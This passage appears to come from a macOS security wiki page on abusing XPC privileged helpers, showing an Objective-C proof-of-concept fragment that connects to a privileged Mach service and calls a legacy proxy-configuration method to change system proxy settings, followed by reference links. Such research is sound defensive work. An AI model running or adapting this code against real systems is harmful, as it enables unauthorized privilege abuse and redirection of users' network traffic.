 ```objectivec
     
    // Establish an XPC connection
    NSString *serviceName = XPCServiceName;
    NSXPCConnection *xpcConnection = [[NSXPCConnection alloc] initWithMachServiceName:serviceName options:0x1000];
    NSXPCInterface *xpcInterface = [NSXPCInterface interfaceWithProtocol:@protocol(XPCHelperProtocol)];
    [xpcConnection setRemoteObjectInterface:xpcInterface];
    [xpcConnection resume];

    // Handle errors for the XPC connection
    id remoteProxy = [xpcConnection remoteObjectProxyWithErrorHandler:^(NSError *error) {
        NSLog(@"[-] Connection error");
        NSLog(@"[-] Error: %@", error);
    }];

    // Log the remote proxy and connection objects
    NSLog(@"Remote Proxy: %@", remoteProxy);
    NSLog(@"XPC Connection: %@", xpcConnection);

    // Use the legacy method to configure the proxy
    [remoteProxy legacyConfigureProxyWithAuthorization:authData enabled:isProxyEnabled host:proxyAddress port:proxyPort reply:^(NSError *error, BOOL success) {
        NSLog(@"Response: %@", error);
    }];
         
    // Allow some time for the operation to complete
    [NSThread sleepForTimeInterval:10.0f];
    
    NSLog(@"Finished!");
}
```

## Other XPC privilege helpers abused

* [https://blog.securelayer7.net/applied-endpointsecurity-framework-previlege-escalation/?utm\_source=pocket\_shared](https://blog.securelayer7.net/applied-endpointsecurity-framework-previlege-escalation/?utm\_source=pocket\_shared)

## References

* [https://theevilbit.github.io/posts/secure\_coding\_xpc\_part1/](https://theevilbit.github.io/posts/secure\_coding\_xpc\_part1/)

{% hint style="success" %}